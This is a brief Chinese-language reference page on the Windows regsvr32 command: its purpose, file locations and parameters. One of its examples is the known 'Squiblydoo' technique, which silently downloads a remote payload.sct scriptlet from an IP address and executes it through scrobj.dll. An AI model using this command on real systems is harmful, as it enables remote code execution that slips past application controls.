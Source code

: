 # 应用

---

## Regsvr32

Regsvr32 命令用于注册 COM 组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。WinXP 及以上系统的 regsvr32.exe 在 windows\system32 文件夹下；2000 系统的 regsvr32.exe 在 winnt\system32 文件夹下。

注意在 Windows 操作系统的 64 位版本上，有两个版本的 Regsv32.exe 文件：
- 64位版本为 ％systemroot％\System32\regsvr32.exe。
- 32位版本是 ％systemroot％\SysWoW64\regsvr32.exe。

下面是常用参数
```bash
regsvr32 xxx.dll
regsvr32 /u /n /s /i:http://192.168.1.1:80/payload.sct scrobj.dll

# /u 取消注册
# /s 指定 regsvr32 安静运行，在成功注册 / 反注册 DLL 文件的前提下不显示结果提示框。
# /n 指定不调用 DllRegisterServer。此选项必须与 /i 共同使用。
# /i:cmdline 调用 DllInstall 将它传递到可选的 [cmdline]。
```

更多内容参考:
- https://support.microsoft.com/en-us/help/249873/how-to-use-the-regsvr32-tool-and-troubleshoot-regsvr32-error-messages
